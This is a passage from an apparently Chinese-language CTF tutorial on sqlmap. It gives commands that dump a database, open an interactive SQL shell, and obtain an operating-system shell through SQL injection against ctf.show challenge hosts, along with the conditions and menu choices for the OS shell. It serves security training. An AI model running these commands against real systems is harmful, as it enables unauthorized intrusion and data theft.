 或者使用：

```
sqlmap -r sql.txt --data="id=1" --dump 
```

**–sql-shell:运行自定义SQL语句**

```
sqlmap -u http://4b8b52ce-89a7-43a2-b5a0-49f2ea4ef6a0.challenge.ctf.show/api/?id=1  --refer=ctf.show --sql-shell
```

输入后会有一个sql-shell>，在这里输入自己的命令即可：

![img](assets/1-8.png)

**–os-cmd, –os-shell:运行任意操作系统命令**

当为MySQL数据库时，需满足下面条件：

- 当前用户为 root
- 知道网站根目录的绝对路径

```
sqlmap -u http://4b8b52ce-89a7-43a2-b5a0-49f2ea4ef6a0.challenge.ctf.show/api/?id=1  --refer=ctf.show --os-shell 
```

接下来让我们选择网站的脚本语言以及判断网站可写目录的方法，方法分别是使用公共的默认目录
、自定义网络根目录绝对路径、指定自定义的路径文件、暴力破解，我们分别选择4->php以及1->默认目录：

![img](assets/1-9.png)

然后即可执行命令：

![img](assets/1-10.png)